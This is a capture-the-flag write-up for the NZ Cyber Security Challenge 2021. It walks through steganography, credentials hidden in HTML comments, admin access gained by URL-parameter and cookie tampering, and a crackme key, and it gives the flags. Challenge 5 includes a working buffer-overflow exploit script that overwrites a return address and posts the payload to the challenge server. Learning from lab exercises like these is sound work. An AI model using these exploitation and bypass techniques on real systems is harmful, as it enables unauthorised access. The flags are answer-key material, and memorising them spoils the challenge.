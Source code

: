# NZ Cyber Security Challange 2021

## Challenge 2
The challenge provides a picture of a scientist cleaning a black board. Steganography is used to hide the board's contents.

![Original image](chal2/Sunshine.jpg)

You can already see a little bit. Many tools can be used to reveal but I used Photoshop with its Blending feature.

![Modified image](chal2/Sunshine-unveiled.jpg)

And we got the flag:
```
flag{A2QB7G#MagnesiumChlorideHexahydrate000000}
```

## Challenge 3
A login form with username and password was given. A simple check on source code reveals the username and password in a commented section
```html
<!-- Username: dumbh4ck5 Password: XorIsNotSooS3cur3 -->
```
Enter the details in and the flag appears.
```
flag{KLY5FQ#Dibasicsodiumphosphatedihydrate000}
```

## Challenge 4
The page shows "EXTERMINATE CARLOS" with an image of a robot. I spent quite some time digging that image and got nothing out of it. Then after viewing the source code, I found
```html
<!-- Show only for admin -->
<div id="admin-panel"></div>
```
So we need to somehow prove that we are admin. I tried setting cookie but that didn't work so I tried adding a parameter in URL `?admin=1` and a link to Admin panel shows up.<br/>
The Admin panel page has Carlos and Bob names with delete buttons next to them. Exterminate Carlos and we got the flag
```
flag{R5D3SM#Heptadecan-9-yl0000000000000000000}
```

## Challenge 5
An executable file named "buff" was given along with a form to send some input to it on the server. Opening the file in Ghidra quickly shows a function called `helper` call `cat flag.txt` but the function itself isn't called anywhere.

![helper function](chal5/helper.jpg)

In `overflow` function, which is basicly `main`, we can see that we have a buffer-overflow here, we can use this to overwrite the return address to point to `helper` function.

![overflow](chal5/overflow.jpg)

The address can be obtained in different ways, I prefer pwntools because I will use python to send POST request to server anyway.

```py
#!/usr/bin/env python3

from pwn import *
import requests
import re

elf = ELF("./buff")

print("Found helper at: " + hex(elf.symbols['helper']))

payload = b"A" * 516 + p32(elf.symbols['helper'])

r = requests.post("https://r0.nzcsc.org.nz/challenge5/", data={"message": payload}, timeout=5)
print(re.search("flag{.*}", r.text).group())
```
or [here](chal5/payload.py)

516 bytes padding is the sweet spot here, following is the address of `helper`. The server may lag sometimes so just run the script again.

And the flag
```
flag{3cj2kx#4-hydroxybutylZanediyl000000000000}
```

## Challenge 6
A [crackme](chal6/crackme) file was given. It is an executable file so I threw it in Ghidra to have a look.<br/>
Here is the main function:<br/>
![Ghidra main function](chal6/ghidra.jpg)
1. First it checks the parameter we give to be exactly 16 chars
2. Call `checkMod()` function with a parameter substring, every 4 chars.
3. `checkMod()` will convert that 4 characters into integers and sum them up, for example, "AAAA" will be 41 + 41 + 41 + 41. After that, it checks if that sum is divisible by a given number - third parameter, which are `5, 2, 0xb = 11, 0x137 = 311`

After some tinkering with ASCII table, I came up with `FFFFBBBBBBBBPPPG`. Which can be explained:
```
FFFF = 70 + 70 + 70 + 70 = 280. % 5 = 0
BBBB = 42 + 42 + 42 + 42 = 168. % 2 = 0 and % 11 = 0
PPPG = 80 + 80 + 80 + 71 = 311. % 311 = 0
```
There are many combinations can work.

Passing that to the program and we got the flag:
```
./crackme FFFFBBBBBBBBPPPG
[+] You win!
[+] Here's your flag - Flag{B78YYB#N-ditetradecylacetamide00000000000}
```

## Challenge 10
It's the same login form as [Challenge 3](#Challenge-3) with 1 additional step: modifying a cookie value.<br/>
Change cookie `logged-in` from 0 to 1, then login with the same credentials will show the flag:
```
flag{3gSdzl#TromethamineHydrochloride000000000}
```